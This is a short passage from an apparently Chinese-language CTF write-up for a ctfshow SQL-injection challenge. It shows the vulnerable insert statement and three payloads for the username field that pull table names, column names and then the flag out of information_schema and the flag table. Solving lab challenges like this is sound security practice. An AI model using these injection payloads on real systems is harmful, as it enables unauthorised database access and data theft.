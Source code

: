 ![2371](/medias/show-sql/2371.png)

首页的sql语句

```sql
$sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
```

☝🤓唉，有钱了买两杯豆浆，喝一杯倒一杯。两个参数，想怎么玩怎么玩，类似刚才的`update`。同样注意单引号的闭合，`value()`的闭合，否则语法错误。也可以用`反斜杠转义`


```sql
# 爆表 flag
username=1',(select group_concat(table_name) from information_schema.tables where table_schema=database()))#&password=1
# 爆字段 flagass23s3
username=1',(select group_concat(column_name) from information_schema.columns where table_schema=database()))#&password=1
# 爆flag
username=1',(select group_concat(flagass23s3) from flag ))#&password=1
```

## web 238 
